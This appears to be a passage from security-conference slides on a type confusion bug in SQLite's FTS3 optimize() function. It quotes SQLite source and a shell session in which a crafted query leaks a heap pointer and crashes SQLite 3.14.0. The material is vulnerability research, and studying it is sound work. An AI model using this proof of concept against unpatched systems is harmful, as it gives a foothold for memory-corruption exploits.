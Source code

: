** where 't' is the name of an FTS3 table.

*/

static void fts3OptimizeFunc(

sqlite3_context *pContext,

/* SQLite function call context */

int nVal,

/* Size of argument array */

sqlite3_value **apVal

/* Array of arguments */

){

int rc;

/* Return code */

Fts3Table *p;

/* Virtual table handle */

Fts3Cursor *pCursor;

/* Cursor handle passed through apVal[0] */

if( fts3FunctionArg(pContext, "optimize", apVal[0], &pCursor) ) return; p = (Fts3Table *)pCursor->base.pVtab; ... }
39

FTS3 Tricks
 Virtual Table can have custom xColumn method in order to find the value of N-th column of current row.
 int (*xColumn)(sqlite3_vtab_cursor*, sqlite3_context*, int N);
 FTS3 module accepts the table name as a column name. Some functions take the table name as the first argument.
 SELECT optimize(t) FROM t LIMIT 1;
 However, when it's not given with the correct column, it can still be compiled.  The interpreter can never know the required type of column data.
40

Type Confusion
SQLite version 3.14.0 2016-07-26 15:17:14 Enter ".help" for usage hints. Connected to a transient in-memory database. Use ".open FILENAME" to reopen on a persistent database. sqlite> create virtual table a using fts3(b); sqlite> insert into a values(x'4141414142424242'); sqlite> select hex(a) from a; C854D98F08560000 sqlite> select optimize(b) from a; [1] 37515 segmentation fault sqlite3
41

What do we control?

static void fts3OptimizeFunc( sqlite3_context *pContext,

Let's take optimize() function as an example:

int nVal, sqlite3_value **apVal ){
